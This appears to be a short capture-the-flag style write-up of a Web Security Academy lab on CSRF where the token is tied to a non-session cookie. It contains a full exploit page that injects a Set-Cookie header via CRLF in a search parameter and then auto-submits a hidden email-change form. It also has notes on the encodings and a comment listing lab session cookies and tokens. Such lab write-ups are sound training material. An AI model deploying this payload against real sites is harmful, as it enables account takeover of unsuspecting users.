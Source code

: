 ```
<html>
    <body>
        <img src="https://0a92009704dc6bbd8253102a008c0096.web-security-academy.net?search=test%0d%0aSet-Cookie:csrfKey=Mu5LfKpj7XOLINgD5Z0XS22tibi8qcfZ%3b%20SameSite=None" />
        <form action="https://0a92009704dc6bbd8253102a008c0096.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned123@evil-user.net" />
            <input type="hidden" name="csrf" value="C3RckvumwECW9N47SvLi0q0aan8sWlcR">
        </form>
        <script>
            setTimeout(() => {
                document.forms[0].submit();
            }, 1000)
        </script>
    </body>
</html>
```

Prerequisite:
1. CSRF token is not bind to session cookie.
2. But in this lab, session can be set by search request, as wanted, so even CSRF token is binded to the session cookie, its still vulnerable.


- use img tag to set cookie, e.g. csrfKey
    - %0d: return
    - %0a: line break
    - %3b: semicolon
    - %20: space
    - Note: SameSite=None
    - use JS encodeURI/decodeURI
- form tag for doing csrf job, delivery csrf token
- setTimeout make sure the img request finished

<!--
    session=pf5fR8OHpU4Z2H7W14HyYG7ySNcVhOZG; LastSearchTerm=test; csrfKey=1U5Sp1GPbrAXoVaAlJRTTwsaGK4NL1Cl; session=p67BWEsu5ycWXgUQsD6H80gdUVAl47tK
    csrftoken = fMY5YXNx0oOtbB5QqpqPuC0j1BNgUrij

    - use
-->